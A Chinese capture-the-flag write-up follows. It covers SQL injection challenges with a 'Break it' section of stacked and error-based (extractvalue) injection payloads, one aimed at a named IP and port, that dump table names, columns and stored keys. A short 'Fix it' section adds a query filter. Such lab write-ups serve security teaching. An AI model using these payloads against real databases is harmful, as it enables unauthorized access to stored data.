








# Break it

## amazing_sqli write up  
* 访问网页后注册登录  
  
* 进入留言板，点击发布  
  
* 在发布页面进行堆叠注入  
    * 查看表名```1';show tables;#```  
       
      
    * 查看列名  
    ```';show columns from `f_here_is_tips`;#```  
      
    
    这一列中有我们需要的提示  
    * 修改表名  
    ```1';RENAME TABLE `come_on` TO `words1`;RENAME TABLE `f_here_is_tips` TO `come_on`;ALTER TABLE `come_on` CHANGE `hints` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;show columns from wcome_on;#```    
    * 紧接着查询这个表的字段  
    ```1' or '1'='1```  
    得到一串base64，这就是提示  
    
    * 拿去解码，得到藏有flag的图片路径  
        ```  
        /this_is_aaaaaa_hint.jpg  
        ```  
        下载图片   
    * 拖到虚拟机用 binwalk 命令分析
    
    * 用十六进制编辑器提取出隐藏的图片1，并在文件位恢复zip相应被修改的位，提取出zip。然后将图片1放入jphide工具提取信息，结合zip里的php修改运行，可得到flag。
    
    标红位置，开头修改为`50 4B 03 04`，第二个PK头的位置修改为`50 4B 01 02`，第二个`abcd.php`的名字修改为`flag.php`

    * 修改 php 内容，将 host 变量的内容改为"MMT is beautiful"
        ```
        <?php
        $left="{";
        $right="}";
        $win="tCTF";
        $hello="world";
        $world="cuc";
        $cuc="good";
        $good="you";
        $you="win";

        $host = "MMT is beautiful";

        echo $$$$$$hello . $left . md5($host) . $right;

        ?>
        ```

    * 得到flag：tCTF{416199354d80b164b1be9d4409d3442d}

## Team1：http://81.70.163.207:3366/
* 尝试sql注入  
* 爆数据库名  
    ```  
    l' and extractvalue(1,concat(0x7e,database(),0x7e)) --   
    ```  
* 爆表名  
    ```  
    l' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) --   
    ```  
* 爆列名  
    ```  
    l' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='user_key_tb'),0x7e)) --   
    ```  
* 查看列中数据  
    ```  
    l' and extractvalue(1,concat(0x7e,(select group_concat(user_name) from user_key_tb),0x7e)) --   
    l' and extractvalue(1,concat(0x7e,(select group_concat(user_key) from user_key_tb),0x7e)) --   
    ```  
    
* 将上一步获得base64编码的字符进行解码  
    ```  
    tCTF{flag_000323.jpg}  
    ```


# Fix it
* 将禁止堆叠注入与过滤常见数据库操作语句相结合，用户无法访问含有敏感信息的表  
    ```  
    #一次只能执行一个操作
    multi_query()-->query()  

    #过滤  
    preg_match("/select|update|delete|drop|insert|where|\./i",$inject) && die('察觉到你尝试攻击,请停止sql注入');  
    ```